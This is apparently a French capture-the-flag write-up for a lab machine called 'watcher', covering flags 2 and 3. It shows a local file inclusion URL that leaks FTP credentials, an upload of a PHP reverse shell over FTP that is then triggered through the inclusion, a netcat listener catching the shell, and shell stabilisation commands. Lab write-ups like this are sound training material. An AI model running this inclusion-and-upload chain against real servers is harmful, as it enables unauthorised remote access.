 Voici l'url avec la LFI : http://10.10.114.38/post.php?post=secret_file_do_not_read.txt

Et le résultat :
```
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:g************7
```
Nous avond donc des creds pour le FTP !
Et on y trouve le flag 2 !
```
ftp> ls -la
229 Entering Extended Passive Mode (|||48556|)
150 Here comes the directory listing.
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 ..
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
```
Le dossier "files" et vide.
```flag_2.txt
FLAG{ftp_***_***_me}
```
# Flag 3
On sait que le site est vulnérable au LFI, nous savons aussi que le FTP pointe sur **/home/ftpuser/ftp/files**
On va tenter d'upload un shell et de l'avoir avec la LFI.
```
ftp> put rshell.php
local: rshell.php remote: rshell.php
229 Entering Extended Passive Mode (|||44821|)
150 Ok to send data.
100% |***********************************************************************************************************************************************|  5494       40.30 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (52.78 KiB/s)
```
On va ensuite sur l'url qui pointe vers le rshell:
```
http://10.10.114.38/post.php?post=/home/ftpuser/ftp/files/rshell.php
```
Et voici le reverseshell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444                              
listening on [any] 4444 ...
connect to [{IP}] from (UNKNOWN) [10.10.114.38] 44262
Linux watcher 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:22:45 up 51 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
On stabilise le shell :
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
-> CTRL+Z
stty raw -echo; fg
```
On peu partir a la recherche du flag 3.
```
www-data@watcher:/$ find / -name flag_3.txt 2</dev/null
/var/www/html/more_secrets_a9f10a/flag_3.txt
```